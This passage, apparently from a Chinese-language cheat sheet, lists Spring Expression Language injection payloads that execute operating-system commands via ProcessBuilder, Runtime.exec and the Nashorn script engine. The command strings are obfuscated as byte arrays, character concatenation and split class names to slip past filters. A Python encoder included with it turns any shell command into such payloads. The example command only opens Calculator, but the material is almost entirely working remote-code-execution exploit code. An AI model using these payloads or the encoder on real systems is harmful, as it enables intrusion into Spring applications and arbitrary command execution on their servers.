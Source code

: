  - Part2
```java
new java.lang.ProcessBuilder(new String[]{new java.lang.String(new byte[]{111,112,101,110}),new java.lang.String(new byte[]{45,97}),new java.lang.String(new byte[]{67,97,108,99,117,108,97,116,111,114})}).start()
```

用于`String`类动态生成字符的字符`ASCII`码转换生成:

```python
def shell():
    shell = input('Enter shell to encode: ')

    part1_shell = 'T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(shell[0])
    for c in shell[1:]:
        part1_shell += '.concat(T(java.lang.Character).toString(%s))' % ord(c)
    part1_shell += ')'
    print('\nPart1: ')
    print(part1_shell + '\n')

    part2_shell = 'new java.lang.ProcessBuilder(new String[]{'
    args = shell.split(' ')
    len_args = len(args)
    len_temp = 0
    while(len_temp < len_args):
        temp = 'new java.lang.String(new byte[]{'
        for i in range(len(args[len_temp])):
            temp += str(ord(args[len_temp][i]))
            if (i != len(args[len_temp]) - 1):
                temp += ','
        temp += '})'
        part2_shell += temp
        len_temp += 1
        if len_temp != len_args:
            part2_shell += ','

    part2_shell += '}).start()'
    print('\nPart2: ')
    print(part2_shell + '\n')

if __name__ == '__main__':
    shell()
```

### JavaScript 引擎

```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")
```

```java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"JavaScript\").eval(\"s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.la\"+\"ng.Run\"+\"time.getRu\"+\"ntime().ex\"+\"ec(s);\"))
```
